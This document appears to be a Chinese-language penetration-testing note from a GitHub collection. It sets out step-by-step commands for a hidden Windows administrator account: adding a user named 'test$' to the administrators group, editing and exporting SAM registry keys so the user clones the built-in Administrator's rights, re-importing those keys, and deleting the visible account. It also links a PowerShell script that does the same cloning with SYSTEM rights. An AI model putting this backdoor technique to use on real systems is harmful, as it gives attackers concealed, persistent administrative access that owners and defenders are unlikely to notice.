 	>net user test$ test /add
	>net localgroup administrators test$ /add
	注册表HKEY_LOCAL_MACHINE\SAM\SAM\
	给予administrator SAM的完全控制和读取的权限
	以下导出为1.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$
	记录HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$的默认类型000003EA
	以下导出为2.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EA
	默认administrator默认类型为000001F4
	以下导出为3.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
	把000001F4(3.reg)的F值粘贴到000003EA(2.reg)的F值
	修改后导入
	>regedit /s 1.reg
	>regedit /s 2.reg
	删除net user test$ /del
	Powershell脚本
	https://github.com/3gstudent/Windows-User-Clone/blob/master/Windows-User-Clone.ps1
	需system权限
	>Create-Clone -u 要创建的 -p 密码 -cu 想要克隆的
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/448.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/449.png)